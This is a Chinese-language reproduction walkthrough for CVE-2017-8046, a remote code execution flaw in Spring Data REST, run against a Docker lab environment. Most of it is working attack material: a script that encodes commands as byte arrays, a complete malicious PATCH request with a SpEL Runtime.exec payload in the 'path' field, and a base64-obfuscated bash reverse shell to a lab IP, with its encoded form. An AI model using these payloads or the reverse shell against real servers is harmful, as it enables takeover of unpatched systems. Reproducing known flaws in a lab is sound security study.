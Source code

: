# Spring Data Rest 远程命令执行漏洞 CVE-2017-8046

## 漏洞描述

Spring Data REST 是一个构建在 Spring Data 之上，为了帮助开发者更加容易地开发 REST 风格的 Web 服务。在 REST API 的 Patch 方法中（实现 [RFC6902](https://tools.ietf.org/html/rfc6902)），path 的值被传入 `setValue`，导致执行了 SpEL 表达式，触发远程命令执行漏洞。

参考链接：

- [http://xxlegend.com/2017/09/29/Spring%20Data%20Rest 服务器 PATCH 请求远程代码执行漏洞 CVE-2017-8046 补充分析/](http://xxlegend.com/2017/09/29/Spring Data Rest 服务器 PATCH 请求远程代码执行漏洞 CVE-2017-8046 补充分析/)
- [https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞%28CVE-2017-8046%29_分析与复现.html](https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞(CVE-2017-8046)_分析与复现.html)

## 环境搭建

Vulhub 执行如下命令启动漏洞环境：

```
docker-compose up -d
```

等待环境启动完成，然后访问 `http://your-ip:8080/` 即可看到 json 格式的返回值，说明这是一个 Restful 风格的 API 服务器。

![image-20220301144324049](images/202203011443101.png)

## 漏洞复现

先将命令转为 ASCII 码表示：

```python
# Payload to ASCII
payload = b'touch /tmp/awesome_poc'
bytecode = ','.join(str(i) for i in list(payload))
print(bytecode)
```

执行结果：

```
116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99
```

开始复现，访问 `http://your-ip:8080/customers/1`，看到一个资源。我们使用 PATCH 请求来修改之：

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99}))/lastname", "value": "vulhub" }]
```

path 的值是 SpEL 表达式，发送上述数据包，将执行 `new byte[]{116,111,117,99,104,32,47,116,109,112,47,97,119,101,115,111,109,101,95,112,111,99}` 表示的命令 `touch /tmp/awesome_poc`。

![image-20220301145537369](images/202203011455445.png)

进入容器 `docker-compose exec spring bash` 查看，可见，文件 `awesome_poc` 被成功创建：

![image-20220301145500645](images/202203011455722.png)

将 bytecode 改成反弹 shell 的命令，并进行转换：

```
# 反弹shell命令
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}

# bytecode
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,51,78,67,52,120,77,106,103,118,79,84,107,53,79,83,65,119,80,105,89,120,67,103,111,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
```

发送数据包：

![image-20220301145823746](images/202203011458842.png)

成功接收反弹 shell：

![image-20220301145803433](images/202203011458521.png)
